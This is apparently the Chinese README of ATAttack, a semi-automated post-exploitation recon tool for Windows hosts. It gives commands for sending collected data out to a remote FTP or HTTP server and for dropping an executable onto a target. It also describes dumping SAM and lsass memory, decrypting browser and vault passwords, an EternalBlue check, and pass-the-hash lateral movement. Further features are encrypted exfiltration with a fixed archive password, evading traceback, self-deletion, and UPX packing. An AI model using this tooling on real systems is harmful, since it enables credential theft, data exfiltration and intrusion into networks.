 #### 前言

​	 每获取一台机器权限，如果每次都手动操作重复一样的信息收集工作，无疑加大了工作量，既为了能更好的获取内网进一步突破点攻击面,这段闲暇时间造了个简易的轮子，其在真实环境中发现较多未知问题，欢迎大家踊跃提交 issue 和 PR ！

#### 开发进度：

#### 简介

**ATAttack**是一款后渗透半自动化侦察工具，它从进攻性和防御性安全角度执行许多面向安全性的主机调查“安全检查”。

项目地址：https://github.com/c1y2m3/ATAttack

####  快照预览

###### win10测试环境

![](https://www.yunzhijia.com/microblog/filesvr/5dbe4d62b54c8d19b5579f55)

win2008测试环境：

![](https://www.yunzhijia.com/microblog/filesvr/5dc59c7d28011f682aaec035)

##### 使用方法

###### cmd.exe

存储于本地临时文件夹：

```
python exploit.py
```

回传远程FTP服务器：

```
python exploit.py -t ftp_host -u ftp_user -p ftp_pwd
```

通过PUT请求回传http服务端

```
python exploit.py -d http://10.10.10.10:8000/ 
```

HTTP分块传输落地可执行文件 

```
python http_client.py -d http://10.10.10.10./exploit.exe -u http://10.10.10.10:8000/ 
```

###### 一、基础信息获取：

1、系统驱动器、主机版本信息获取,当前系统进程识别，判断是否存在杀软av进程

2、单机所有用户以及当前用户RDP远程连接导出 

3、当前系统已安装程序列表获取 ,

4、在当前用户文件夹下查找指定文件，如word、pdf、txt、csv等敏感数据


###### 二、主机网段收集:

1、基于提取系统远程连接记录，如：远程桌面，arp缓存，windows系统日志(4624、4625)等

（浏览器浏览记录、单机系统记录，系统登录日志记录筛选提取IP）

2、主流浏览器浏览记录提取，通过位操作符判断筛选私有地址去重划分网段。

###### 三、凭证获取:

1、注册表存储sam提取、在线解密  %SystemRoot%\system32\config\sam  

2、使用comsvcs.dll 中MiniDump 函数 dump指定lsass进程,

如失败则使用procdump提取lsa缓存进程，回传ftp或http服务端，半自动化离线解密  

3、通过netsh 导出系统 wifi密码[暂时删除]、Windows Vaults 普通 / WEB 凭据提取

3、主流浏览器存储密码在线|离线模式解密,目前覆盖chrome、360chrome、ie,fiefox

fiefox浏览器解密基于key3.db、key4.db，logins.json文件，密钥加密，回传文件离线解密。

4、第三方主机软件 ，如 Navicat、Putty ,foxmail在线解密 [未完成]

###### 四、横向移动

1、探测网段存活，如存活则识别对应windows系统操作版本

2、如系统版本为windows系统，则检测是否存在永恒之蓝漏洞

3、基于解密出的ntlmhash，对存活主机进行pth哈希传递攻击，执行回显命令。


###### 五：数据回传

将获取的数据落地到本地用户Temp文件夹下存储，进行加密压缩回传，解压密钥为：

`Za!@#$@&**(aKg`，尽可能避免了网络设备溯源，程序结束后进行自删除

1、系统所安装的浏览器浏览历史记录，暂命名为update.log

2、系统所搜索的敏感数据文件存储，暂命名为file_list.txt

3、通过提取lsass进程所保存的内存文件，暂命名为lsass.dmp

4、内网主机所识别对应的windows版本，归属于工作组或域主机信息，暂命名为os_version.txt

## 打包ATAttack二进制文件

##### 测试打包环境:

- Python 2.7.15
- PyInstaller 3.4
- Windows 10

通过[UPX](https://upx.github.io/)压缩，使得ATAttack程序落地更小

- 下载UPX(测试环境为upx-3.95-win64版本)

  `https://github.com/upx/upx/releases`

- pip安装[pyinstaller](https://www.pyinstaller.org/)

  `pip install pyinstaller`

- 进入`ATAttack`目录,并通过upx压缩

  `pyinstaller -F exploit.py --upx-dir=upx-3.95-win64`

- 成功打包二进制控制台单文件`\ATAttack\dist]\exploit.exe`

## 已知故障和错误列表

- 系统容错问题，增加部分功能异常处理，提高稳定性。
- 部分内网ftp协议传输限制,后期添加HTTP PUT传输。
- pyinstaller打包后的可执行文件较大，建议在纯净环境下打包可执行文件更小
